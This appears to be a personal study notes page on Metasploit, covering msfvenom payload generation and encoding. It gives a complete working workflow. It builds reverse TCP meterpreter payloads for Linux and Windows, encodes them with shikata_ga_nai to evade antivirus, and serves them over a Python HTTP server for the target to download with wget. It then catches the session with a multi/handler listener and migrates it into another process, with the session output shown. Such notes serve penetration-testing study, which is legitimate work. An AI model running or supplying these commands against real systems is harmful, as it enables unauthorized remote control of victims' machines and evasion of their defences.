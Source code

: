 Console - Network / Pentesting webapps.
Venom - Physical / social engineering.

some lingo:
```shell
shellcode # a lightweight shell code: payload
stub # something to prepare the environmet for payload
```

Encoding:
Used to evade protection such as IDS or antivirus via encoding the payload so that the signature of the program is different.

The most popular encoder is "shikata_ga_nai" which is a polymorphic encoder.
Meaning it changes the signature every time and generating unique code that has never been seen before by anti viruses.

Read up more on shells [[Getting the shell]]

Using msfvenom:

```shell
└─$ msfvenom -l format # show output formats
└─$ msfvenom -l payloads | grep " meterpreter" | awk '{print $1}' # target sys
└─$ msfvenom -l platforms
└─$ msfvenom -l encoders

```

Example for testing:
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.0.2.7 lport=4444 -f bash > reverse_tcp.sh
```

Example of making a meterpreter shell on windows:

First create a payload:
```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f exe > meterpreter_reverse.exe

# You can host the payload on python server
python3 -m http.server 8000

# Now on target machine you can use wget to download thy payload.
# Note: wget on windows is dumb as hell
wget http://192.168.1.2:8000/meterpreter_reverse.exe # for linux
wget http://192.168.1.2:8000/meterpreter_reverse.exe -O filename.exe # for win
```

```shell
msfconsole # run this command and wait
use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set LPORT 4444
exploit # listener will be on
# now you can run the payload for meterpreter shell
# output:
[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Sending stage (176198 bytes) to 192.168.1.4
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.4:62638) at 2024-10-10 18:08:00 +0200

meterpreter > guid # see if session works
meterpreter > run post/windows/manage/migrate # migrate shell to other process
# and more crazy stuff you can do here
https://www.offsec.com/metasploit-unleashed/meterpreter-basics/

```

```shell
# naurr
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f exe -e x86/shikata_ga_nai > meterpreter_reverse.exe
```